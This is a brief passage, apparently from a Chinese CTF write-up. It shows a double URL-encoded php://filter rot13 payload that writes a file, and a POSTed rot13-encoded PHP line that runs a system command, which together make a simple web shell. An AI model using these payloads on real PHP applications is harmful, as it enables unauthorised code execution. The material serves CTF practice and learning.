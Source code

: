 两次 url 编码：

```
?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%65%25%37%32%25%36%66%25%37%34%25%33%31%25%33%33%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%32%65%25%37%30%25%36%38%25%37%30
```

将命令执行语句进行 rot13 解码后POST传入：

```
<?cuc flfgrz("yf");?>
```

 ![image-20250308190617059](assets/image-20250308190617059.png)
